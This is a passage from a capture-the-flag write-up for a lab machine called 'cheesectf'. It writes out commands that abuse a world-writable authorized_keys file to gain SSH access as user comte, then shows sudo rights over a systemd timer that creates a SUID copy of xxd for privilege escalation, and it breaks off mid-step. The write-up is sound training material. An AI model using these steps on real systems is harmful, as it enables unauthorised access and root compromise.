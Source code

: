 The `authorized_keys` file is **world-writable**, allowing us to **add our SSH key**.

### SSH as comte

1. Generate an SSH key pair:

```bash
ssh-keygen -f id_comte -t rsa
```

2. Add our **public key** to `/home/comte/.ssh/authorized_keys`:

```bash
echo "ssh-rsa AAAAB3..." > /home/comte/.ssh/authorized_keys
```

3. SSH into the machine:

```bash
ssh -i id_comte comte@10.10.246.171
```

Now we have a shell as `comte`:

```bash
comte@cheesectf:~$ cat user.txt
THM{user_flag}
```

## Privilege Escalation (comte → root)

### Identifying Sudo Permissions

```bash
sudo -l
```

The output reveals that we can run **systemctl commands as root**:

```bash
User comte may run the following commands on cheesectf:
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer
```

Inspecting `/etc/systemd/system/exploit.service`:

```bash
[Unit]
Description=Exploit Service

[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"
```

This copies `xxd` to `/opt/xxd` with **SUID permissions**. [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/) gives
us a **command to read files**:
